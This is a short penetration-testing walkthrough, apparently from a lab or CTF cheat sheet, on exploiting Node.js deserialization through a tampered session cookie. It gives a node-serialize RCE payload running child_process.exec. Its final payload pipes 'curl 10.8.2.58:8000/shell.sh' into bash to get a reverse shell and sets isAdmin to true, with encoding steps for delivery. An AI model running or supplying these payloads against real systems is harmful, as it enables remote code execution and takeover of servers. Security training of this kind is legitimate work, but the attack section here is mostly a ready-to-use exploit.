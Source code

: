 # Javascript Vulnerabilities

## Javascript Deserializaiton

* Notice the assigned session cookie
*

    <figure><img src="https://miro.medium.com/max/2400/1*ewfMSwChAJIydTBUx9gOCw.png" alt=""><figcaption></figcaption></figure>
* Attempt to decode the cookie in the `decoder` tab
*

    <figure><img src="https://miro.medium.com/max/2400/1*_XIvf6iVoSmg026Ls7fLyQ.png" alt=""><figcaption></figcaption></figure>
* Attempt to modify the cookie by either

```
Cut the cookie in half to see if you can create a server error
Change the cookies values as seen below
```

*

    <figure><img src="https://miro.medium.com/max/2400/1*-O0ze1yZRIpR9WQ1puhE0g.png" alt=""><figcaption></figcaption></figure>
*

    <figure><img src="https://miro.medium.com/max/2400/1*aPfPEful30HcpOB1aj6FEA.png" alt=""><figcaption></figcaption></figure>
* When we cut the cookie in half we get a server error
*

    <figure><img src="https://user-images.githubusercontent.com/75596877/130232573-bc6fec6d-23a5-4e57-8e1e-e950e4c377df.png" alt=""><figcaption></figcaption></figure>
* We see that the web application is trying to unserialize the session cookie but it’s getting an error.
* Node Js de-serialization vulnerability is the easiest to exploit since the payload doesn’t change that much
*

    <figure><img src="https://miro.medium.com/max/2400/1*7CG1m4g4Sog0f3KGB9hWrA.png" alt=""><figcaption></figcaption></figure>
* We will modify the following payload a bit to get it working

```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

* Encode the cookie and see if that payload works to get command injection
*

    <figure><img src="https://miro.medium.com/max/2400/1*V90bBMrFvszV9S-o99P5tQ.png" alt=""><figcaption></figcaption></figure>
* Create a reverse shell script and make sure to `chmod +x` the script
* Final Payload

```
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.8.2.58:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}
```

* Start your listener
* Encode the payload to `Base64` and then `URL Encode`
*

    <figure><img src="https://miro.medium.com/max/2400/1*mQMiB6s96Inix_0O12lGEQ.png" alt=""><figcaption></figcaption></figure>
*

    <figure><img src="https://miro.medium.com/max/2400/1*G8JcV1V1338iuPhrr2x3rg.png" alt=""><figcaption></figcaption></figure>
* Send the request, and get a rev shell!
